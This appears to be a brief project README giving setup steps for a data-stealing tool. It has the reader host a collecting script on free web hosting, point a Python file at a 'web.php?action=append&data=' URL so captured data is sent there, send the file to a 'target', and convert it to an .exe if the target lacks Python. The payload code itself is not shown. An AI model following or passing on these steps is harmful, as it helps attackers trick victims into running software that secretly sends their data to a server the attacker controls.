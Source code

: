 # RandomProject
1. Goto https://www.000webhost.com/ and create a website with unique name.
2. Under your website, goto file manager and public html, inside that folder, upload web.php and database.txt file.
3. In the .py file, change the name with <"your_website.com/web.php?action=append&data="+newdata>.
4. Send this .py file to your target.

*Note :* If your target does not have python installed, you first need to convert the .py file to .exe file (for Windows).
